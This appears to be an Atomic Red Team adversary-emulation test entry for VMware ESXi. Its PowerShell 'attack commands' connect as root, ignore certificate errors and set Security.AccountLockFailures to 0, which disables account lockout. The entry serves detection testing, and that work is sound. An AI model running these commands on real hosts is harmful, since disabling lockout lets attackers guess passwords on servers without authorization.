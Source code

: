 **auto_generated_guid:** 091a6290-cd29-41cb-81ea-b12f133c66cb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vm_host | Specify the host name of the ESXi Server | string | atomic.local|
| vm_user | Specify the privilege user account on ESXi Server | string | root|
| vm_pass | Specify the privilege user password on ESXi Server | string | pass|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-PowerCLIConfiguration -InvalidCertificateAction Ignore -ParticipateInCEIP:$false -Confirm:$false 
Connect-VIServer -Server #{vm_host} -User #{vm_user} -Password #{vm_pass}
Get-AdvancedSetting -Entity #{vm_host} -Name 'Security.AccountLockFailures' | Set-AdvancedSetting -Value '0' -Confirm:$false
Disconnect-VIServer -Confirm:$false
```




#### Dependencies:  Run with `powershell`!
##### Description: Check if VMWARE PowerCLI PowerShell Module is installed.
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name VMware.PowerCLI -ListAvailable
if (-not $RequiredModule) {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name VMware.PowerCLI -Confirm:$false
```




<br/>
